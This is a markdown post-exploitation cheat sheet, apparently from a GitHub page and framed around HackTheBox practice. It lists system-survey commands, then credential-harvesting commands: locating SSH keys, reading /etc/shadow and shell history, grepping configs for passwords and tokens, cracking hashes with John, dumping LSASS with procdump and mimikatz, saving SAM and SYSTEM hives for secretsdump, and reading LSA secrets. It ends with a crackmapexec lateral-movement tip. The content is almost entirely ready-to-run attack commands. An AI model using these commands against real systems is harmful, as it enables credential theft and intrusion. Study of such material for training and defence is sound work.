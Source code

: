 ### III. 🧱 System Survey

| Linux                            | Windows                                      |
| -------------------------------- | -------------------------------------------- |
| `whoami; id; uname -a; hostname` | `whoami /all; systeminfo`                    |
| `ip a; route -n; ss -tulnp`      | `ipconfig /all; netstat -ano`                |
| `cat /etc/passwd; ls /home`      | `net users; net localgroup administrators`   |
| `env; ps aux; crontab -l`        | `set; tasklist; schtasks /query /fo LIST /v` |

***

### IV. 💾 Credential Harvesting

#### 🐧 Linux

| Source            | Command                                              |
| ----------------- | ---------------------------------------------------- |
| **SSH Keys**      | `find / -name id_rsa 2>/dev/null`                    |
| **History Files** | `cat ~/.bash_history`                                |
| **Configs**       | `grep -r "password" /etc /var/www /home 2>/dev/null` |
| **Databases**     | `cat /var/www/html/config.php`                       |
| **System Shadow** | `cat /etc/shadow`                                    |
| **Saved Tokens**  | `grep -r "token" /home`                              |

Crack offline:

```bash
john --wordlist=rockyou.txt shadow.hashes
```

#### 🪟 Windows

| Source                  | Technique / Tool                                                                   |
| ----------------------- | ---------------------------------------------------------------------------------- |
| **LSASS Dump**          | `procdump64.exe -ma lsass.exe lsass.dmp` → `mimikatz sekurlsa::minidump lsass.dmp` |
| **Mimikatz live**       | `privilege::debug` → `sekurlsa::logonpasswords`                                    |
| **SAM/SECURITY/SYSTEM** | `reg save HKLM\SAM C:\temp\SAM` ... `secretsdump.py -sam SAM -system SYSTEM LOCAL` |
| **Credential Manager**  | `cmdkey /list`                                                                     |
| **Browser Creds**       | Edge/Chrome SQLite extractions                                                     |
| **LSA Secrets**         | `mimikatz lsadump::secrets`                                                        |

🧠 **Post-HTB tip:** dump creds, compare, and pivot laterally using _crackmapexec_.

